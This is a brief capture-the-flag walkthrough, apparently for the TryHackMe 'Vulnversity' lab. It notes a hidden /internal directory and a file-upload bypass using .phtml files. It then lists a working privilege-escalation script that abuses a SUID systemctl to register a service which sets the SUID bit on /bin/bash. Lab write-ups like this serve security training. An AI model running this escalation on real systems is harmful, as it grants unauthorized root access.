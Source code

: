 Try Hack Me - Vulnversity 

# Interesting enum

1. Interesting directory: /internal

2. Exploit

```
File upload vulnerabilities bypass with .phtml
```

3. Privilege escalation

```
SUID systemctl
https://gtfobins.github.io/gtfobins/systemctl/

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash" # SETUID binary
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
